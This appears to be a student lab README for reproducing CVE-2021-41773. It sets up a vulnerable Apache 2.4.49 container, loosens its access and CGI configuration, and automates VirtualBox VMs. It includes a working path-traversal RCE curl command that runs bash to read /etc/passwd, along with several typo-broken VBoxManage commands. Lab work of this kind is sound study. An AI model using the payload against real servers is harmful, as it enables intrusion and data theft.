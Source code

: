 # Cybertaak - CVE-2021-41773

## Debian machine 

* maak virtuele machine met VirtualBox (Debian 11)
* Username: osboxes |   Password: osboxes.org

### install docker

* do update:

        sudo apt update

* install components:

        sudo apt-get install apt-transport-https ca-certificates curl gnupg

* get latest docker gpg key:

        wget https://download.docker.com/linux/debian/gpg

* save key:

        sudo apt-key add gpg

* add repo:

        echo "deb [arch=amd64] https://download.docker.com/linux/debian $(lsb_release -cs) stable" | sudo tee -a /etc/apt/sources.list.d/docker.list

* do update again finally:

        sudo apt update

* install docker:

        sudo apt-get install docker-ce docker-ce-cli containerd.io

* check docker running status:

        sudo systemctl status docker

* check installed version:

        docker --version

### apache 2.4.49 

* install:

        sudo docker pull httpd:2.4.49

#### configuration

* run container:

        sudo docker run --name vuln-httpd -p 8080:80 -d httpd:2.4.49

* copy to /home/osboxes/.:

        sudo docker cp vuln-httpd:/usr/local/apache2/conf/httpd.conf .

* grep:

        grep -C4 -n "Require all denied" httpd.conf

* sed:

        sed "250s/denied/granted/" httpd.conf > httpd.new.conf

* copy new to old:

        sudo docker cp httpd.new.conf vuln-httpd:/usr/local/apache2/conf/httpd.conf

* restart container:

        sudo docker container restart vuln-httpd

* modify by hand:

        sudo nano httpd.conf

(change the line `Require all denied` to `Require all granted`)

#### configuration for RCE

* copy to /home/osboxes/.:

        sudo docker cp vuln-httpd:/usr/local/apache2/conf/httpd.conf .

* grep:

        grep -C4 -n "mod_cgi" httpd.conf

* sed:

        sed "184,187s/#//" httpd.conf > httpd.new.conf

* copy new to old:

        sudo docker cp httpd.new.conf vuln-httpd:/usr/local/apache2/conf/httpd.conf

* restart container:

        sudo docker container restart vuln-httpd

## Kali machine

* curl:

        curl -v 'http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /etc/passwd' -H "Content-Type: text/plain"


## Automatisatie + VBoxManage

* List of existing VM's:

        BVoxManage list vms

* List of running VM's:

        VBoxManage list runningvms

* More details about running vm:

        VBoxManage lisr -l runningvms

### Create VM

* List of OS types:

        VBoxManage list ostypes

* create VM:

        VBoxManage createvm --name DebianTaak --ostype Debian_64 --register

* info about VM:

        VBoxManage showvminfo DebianTaak 

* configure VM:

        VBoxManage modifyvm DebianTaak --cpus 2 --memory 2048 --vram 12

* network setting:

        VBoxManage modifyvm DebianTaak --nic1 nat

* create medium vdi:

        VBoxManage createmedium disk --filename "/C:/Users/User/Virtualbox VMs/DebianTaak/DebianTaak" --size 5120 --format VDI

* stockage controller:

        VBoxManage storagectl DebianTaak --name "SATA Controller" --add sata --controller IntelAHCI

* atach disk to controller:

        VBoxManage storageattach DebianTaak --storagectl "ATA Controller" --port 0 --device 0 --type hdd --medium "C:\VDI Files VMs\Debian11(64bit).vdi"

* start vm with gui:

        VBoxManage startvm DebianTaak --type gui